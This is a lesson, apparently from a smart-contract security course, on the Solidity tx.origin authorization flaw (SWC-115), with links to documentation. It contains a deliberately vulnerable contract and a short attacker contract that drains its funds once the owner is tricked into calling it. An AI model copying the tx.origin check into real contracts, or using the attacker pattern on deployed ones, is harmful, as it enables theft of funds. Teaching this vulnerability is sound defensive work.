 TxOrigin Attack (SWC-115)
-------------------------

In this lesson we are going to cover a `tx.origin` attack. The global variable `tx.origin` in Solidity always references the address of the original sender of the transaction, of the full call chain. [See the reference in the docs here.](https://solidity.readthedocs.io/en/latest/units-and-global-variables.html?highlight=tx.origin#block-and-transaction-properties){target=_blank} This is different than `msg.sender` in that `msg.sender` references the address of the sender of the current call.

You should never use `tx.origin` in Solidity for authorization ([SWC-115](https://swcregistry.io/docs/SWC-115){target=_blank}). The following smart contract shows you why. It is susceptible to attack.

```
pragma solidity >0.5.0;  

// Example Tx.Origin Authentication Attack     
contract VulnerableContract {      
  address payable owner = msg.sender;             
  
  function withdraw(address payable _recipient) public {          
    require(tx.origin == owner);          
    _recipient.transfer(address(this).balance);      
  }             
  
  function getBalance() view public returns(uint) {          
    return address(this).balance;      
  }             
  
  function() external payable {}  
}     

contract MaliciousContract {      
  VulnerableContract vulnerableContract = VulnerableContract(0x08970FEd061E7747CD9a38d680A601510CB659FB);      
  address payable attackerAddress = 0xdD870fA1b7C4700F2BD7f44238821C26f7392148;             
  
  function() external payable {          
    vulnerableContract.withdraw(attackerAddress);      
  }  
}
```

In this contract, if the creator of the VulnerableContract is tricked into calling the MaliciousContract, the Malicious contract will be able to drain the VulnerableContract of all funds.

Additional Resources:

* [Solidity documentation on the security considerations of tx.origin](https://solidity.readthedocs.io/en/latest/security-considerations.html?#tx-origin){target=_blank}
* [The SWC Registry entry for Authorization through tx.origin](https://swcregistry.io/docs/SWC-115){target=_blank}
